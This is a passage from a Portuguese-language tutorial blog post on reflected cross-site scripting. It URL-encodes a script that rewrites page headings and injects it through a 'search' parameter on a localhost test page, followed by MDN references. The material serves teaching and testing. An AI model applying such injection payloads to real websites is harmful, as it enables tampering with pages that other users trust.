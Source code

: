 Ao converter para *URL Encode*:

```
%3Cscript%3E%0A%09document.getElementsByTagName%28%22h1%22%29%5B0%5D.innerHTML%20%3D%20%22Modificado%21%22%3B%0A%09document.getElementsByTagName%28%22h2%22%29%5B2%5D.innerHTML%20%3D%20%22Modificado%20Tamb%C3%A9m%21%22%3B%0A%3C%2Fscript%3E
```

Tento a seguinte URL final:

- [http://localhost/01/?search=%3Cscript%3E%0A%09document.getElementsByTagName%28%22h1%22%29%5B0%5D.innerHTML%20%3D%20%22Modificado%21%22%3B%0A%09document.getElementsByTagName%28%22h2%22%29%5B2%5D.innerHTML%20%3D%20%22Modificado%20Tamb%C3%A9m%21%22%3B%0A%3C%2Fscript%3E](http://localhost/01/?search=%3Cscript%3E%0A%09document.getElementsByTagName%28%22h1%22%29%5B0%5D.innerHTML%20%3D%20%22Modificado%21%22%3B%0A%09document.getElementsByTagName%28%22h2%22%29%5B2%5D.innerHTML%20%3D%20%22Modificado%20Tamb%C3%A9m%21%22%3B%0A%3C%2Fscript%3E)

![Resultado](/img/posts/2023-06-21-beyond-the-alert-4.png)

#### Referências

- [https://www.ietf.org/rfc/rfc1866.txt](https://www.ietf.org/rfc/rfc1866.txt)
- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementById](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementById)
- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByClassName](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByClassName)
- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByName](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByName)
- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagName)
- [https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagNameNS](https://developer.mozilla.org/en-US/docs/Web/API/Document/getElementsByTagNameNS)
- [https://developer.mozilla.org/en-US/docs/Web/API/Element](https://developer.mozilla.org/en-US/docs/Web/API/Element)
